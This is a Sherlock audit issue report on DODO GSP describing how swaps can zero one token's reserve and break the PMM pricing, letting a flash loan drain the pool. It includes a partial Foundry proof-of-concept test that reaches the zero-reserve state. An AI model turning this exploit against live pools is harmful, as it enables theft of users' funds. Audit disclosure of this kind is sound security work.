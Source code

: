# Issue H-3: Pool can be drained if there are no LP_FEES 

Source: https://github.com/sherlock-audit/2023-12-dodo-gsp-judging/issues/122 

## Found by 
cergyk, mstpr-brainbot
## Summary
The pool can be depleted because swaps allow the withdrawal of the entire balance, resulting in a reserve of 0 for a specific asset. When an asset's balance reaches 0, the PMMPricing algorithm incorrectly estimates the calculation of output amounts. Consequently, the entire pool can be exploited using a flash loan by depleting one of the tokens to 0 and then swapping back to the pool whatever is received.
## Vulnerability Detail
Firstly, as indicated in the summary, selling quote/base tokens can lead to draining the opposite token in the pool, potentially resulting in a reserve of 0. Consequently, the swapping mechanism permits someone to entirely deplete the token balance within the pool. In such cases, the calculations within the pool mechanism become inaccurate. Therefore, swapping back to whatever has been initially purchased will result in acquiring more tokens, further exacerbating the depletion of the pool.

Allow me to provide a PoC to illustrate this scenario:
```solidity
function test_poolCanBeDrained() public {
        // @review 99959990000000000000000 this amount makes the reserve 0
        // run a fuzz test, to get the logs easily I will just use this value as constant but I found it via fuzzing
        // selling this amount to the pool will make the quote token reserves "0".
        vm.startPrank(tapir);
        uint256 _amount = 99959990000000000000000;

        //  Buy shares with tapir, 10 - 10 initiate the pool
        dai.transfer(address(gsp), 10 * 1e18);
        usdc.transfer(address(gsp), 10 * 1e6);
        gsp.buyShares(tapir);

        // make sure the values are correct with my math
        assertTrue(gsp._BASE_RESERVE_() == 10 * 1e18);
        assertTrue(gsp._QUOTE_RESERVE_() == 10 * 1e6);
        assertTrue(gsp._BASE_TARGET_() == 10 * 1e18);
        assertTrue(gsp._QUOTE_TARGET_() == 10 * 1e6);
        assertEq(gsp.balanceOf(tapir), 10 * 1e18);
        vm.stopPrank();
        
        // sell such a base token amount such that the quote reserve is 0
        // I calculated the "_amount" already which will make the quote token reserve "0"
        vm.startPrank(hippo);
        deal(DAI, hippo, _amount);
        dai.transfer(address(gsp), _amount);
        uint256 receivedQuoteAmount = gsp.sellBase(hippo);

        // print the reserves and the amount received by hippo when he sold the base tokens
        console.log("Received quote amount by hippo", receivedQuoteAmount);
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());

        // Quote reserve is 0!!! That means the pool has 0 assets, basically pool has only one asset now!
        // this behaviour is almost always not a desired behaviour because we never want our assets to be 0 
        // as a result of swapping or removing liquidity.
        assertEq(gsp._QUOTE_RESERVE_(), 0);
```